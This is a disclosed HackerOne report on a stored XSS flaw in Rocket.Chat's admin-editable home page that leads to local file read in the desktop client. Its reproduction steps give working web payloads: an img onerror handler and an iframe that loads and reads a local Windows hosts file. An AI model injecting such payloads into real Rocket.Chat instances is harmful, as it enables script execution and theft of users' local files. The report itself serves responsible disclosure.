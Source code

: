 # XSS (leads to arbitrary file read in Rocket.Chat-Desktop)

## Report Details
- **Report ID**: 724153
- **URL**: https://hackerone.com/reports/724153
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-10-28T19:11:09.189Z
- **Disclosed**: 2020-01-02T16:19:08.554Z

## Reporter
- **Username**: sectex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Description:** Rocket.Chat allows administrative users to customize the home body. Since `<script>` tags are removed, I think that running scripts should not be allowed. However, event handlers are not removed, allowing you to inject your own scripts.

## Releases Affected:

  * Rocket.Chat-Desktop-Client: v2.15.5
  * Rocket.Chat-Server: v2.0.0
  * Apps-Engine-Version: v1.5.2

## Steps To Reproduce (from initial installation to vulnerability):

  - Go to `Administration » Layout » Content`
  - Set `Home Body` to `<img src=0 onerror="alert(0)"/>`
  - Visit `/home`

### Arbitrary file read in Rocket.Chat-Desktop

  - Go to `Administration » Layout » Content`
  - Set `Home Body` to `<iframe src="file://c:/windows/system32/drivers/etc/hosts" onload="alert(iframe.contentDocument.body.innerHTML)" id="iframe"></iframe>`
  - Visit `/home`

## Supporting Material/References:

  * {F613006}
  * {F613007}
  * {F620074}

## Impact

* Attackers can execute scripts which leads to arbitrary file read and rce in Rocket.Chat-Desktop

## Attachments
- admin-panel.png
- alert.png
- arbitrary_file_read.mp4
